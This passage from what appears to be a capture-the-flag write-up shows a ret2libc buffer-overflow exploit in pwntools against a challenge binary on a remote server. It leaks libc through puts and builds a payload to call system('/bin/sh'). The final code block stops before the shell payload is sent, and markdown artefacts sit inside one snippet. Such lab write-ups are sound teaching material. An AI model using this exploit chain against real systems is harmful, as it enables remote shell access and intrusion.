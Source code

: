 ### 3. Get the Shell

- Send a second payload to call system("/bin/sh").
- **Payload**:
    - 72 bytes of junk.
    - Align the stack, then call system with /bin/sh.

```python
payload = b"A" * 72
payload += b"\x1a\x10\x40\x00\x00\x00\x00\x00"  *# ret*
payload += b"\xbd\x12\x40\x00\x00\x00\x00\x00"  *# pop rdi; ret*
payload += p64(bin_sh_addr)  *# /bin/sh address*
payload += p64(system_addr)  *# system address*
```

---

## Full Exploit Code

```python
from pwn import *

# Set up the context
context.binary = "/home/kali/Downloads/chall"
context.log_level = "info"

# Connect to the remote server
p = remote("34.133.69.112", 10007)

# Binary addresses (these remain the same as local)
pop_rdi = 0x4012bd       # Gadget: pop rdi; ret
puts_plt = 0x401090      # PLT address of puts
puts_got = 0x404018      # GOT address of puts
main_addr = 0x401292     # Address to return to main after leak
ret_gadget = 0x40101a    # Simple ret gadget for stack alignment

# Step 1: Leak the puts address from libc
payload = b"A" * 72      # Padding to overwrite return address
payload += p64(pop_rdi)  # pop rdi; ret
payload += p64(puts_got) # Argument: address of puts in GOT
payload += p64(puts_plt) # Call puts to leak the address
payload += p64(main_addr)# Return to main for second input

info("Sending payload to leak libc address")
p.recvuntil(b"Enter your input: ")
p.sendline(payload)

# Receive and parse the leaked address
p.recvline()  # Discard input echo or newline
leak = u64(p.recvline().strip().ljust(8, b"\x00"))
info(f"Leaked puts address: {hex(leak)}")

# Step 2: Calculate libc base and function addresses
puts_offset = 0x80e50    # Offset of puts in libc (same as local)
libc_base = leak - puts_offset
info(f"Libc base: {hex(libc_base)}")

system_offset = 0x50d70  # Offset of system in libc
bin_sh_offset = 0x1d8678 # Offset of /bin/sh string in libc
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset
info(f"System address: {hex(system_addr)}")
info(f'/bin/sh address: {hex(bin_sh_addr)}')

```